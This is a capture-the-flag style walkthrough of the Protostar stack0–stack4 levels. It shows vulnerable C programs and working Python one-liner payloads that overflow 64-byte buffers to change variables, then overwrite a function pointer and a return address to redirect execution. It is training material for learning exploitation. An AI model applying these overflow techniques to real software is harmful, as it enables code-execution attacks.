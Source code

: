 ### Install

> protostar vm on parallels
> root/godmod and ifconfig

### Stack0

> /opt/protostar/bin/stack0

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

The concepts I need to know : `parameter passing to gets()`, `order of local parameters on the stack`, `command line python script` 

```
$ (python -c 'print "A"*64+"BBBB"';cat)|./stack0
you have changed the 'modified' variable
```

### Stack1

> /opt/protostar/bin/stack1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

The concepts I need to know : `endian in memory`

```
$ ./stack1 `python -c 'print "A"*64+"\x64\x63\x62\x61"'`
you have correctly got the variable to the right value
```

### Stack2

> /opt/protostar/bin/stack2

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

The concepts I need to know : `shell variable`, `env variable`

```
$ GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
$ export GREENIE
$ ./stack2
you have correctly modified the variable
```

### Stack3

> /opt/protostar/bin/stack3

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

The concepts I need to know : `getting address of the function`, `objdump`

```
$ objdump -d ./stack3 | grep win
08048424 <win>:
$ (python -c 'print "A"*64+"\x24\x84\x04\x08"';cat)|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

### Stack4

> /opt/protostar/bin/stack4

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

The concepts I need to know : `gdb`, `make eip value modified`, `assembly lea    0x10(%esp),%eax`

```
$ scp user@10.211.55.5:/opt/protostar/bin/stack4 .

gef➤  x/64x $esp
0xffffcf00: 0xffffffff  0xffffcf2e  0xf7e1ec34  0xf7e44fe3
0xffffcf10: 0x00000000  0x080495ec  0xffffcf28  0x080482e8
0xffffcf20: 0xffffd1c9  0x080495ec  0xffffcf58  0x08048449
0xffffcf30: 0x08048430  0x08048340  0x00000000  0xf7e4519d
0xffffcf40: 0xf7fbb3c4  0xf7ffd000  0x0804843b  0xf7fbb000
0xffffcf50: 0x08048430  0x00000000  0x00000000  0xf7e2bad3
0xffffcf60: 0x00000001  0xffffcff4  

$ebp   : 0xffffcf58

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE


gef➤  x/64x $esp
0xffffcf00: 0xffffcf10  0xffffcf2e  0xf7e1ec34  0xf7e44fe3
0xffffcf10: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf20: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf30: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf40: 0x41414141  0x41414141  0x41414141  0x41414141
0xffffcf50: 0x42424242  0x43434343  0x44444444  0x45454545
0xffffcf60: 0x00000000  0xffffcff4  

$ objdump -d stack4 | grep win
080483f4 <win>:
$ (python -c 'print "A"*64+"BBBBCCCC"+"DDDD"+"\xf4\x83\x04\x08"';cat)|./stack4
code flow successfully changed
```
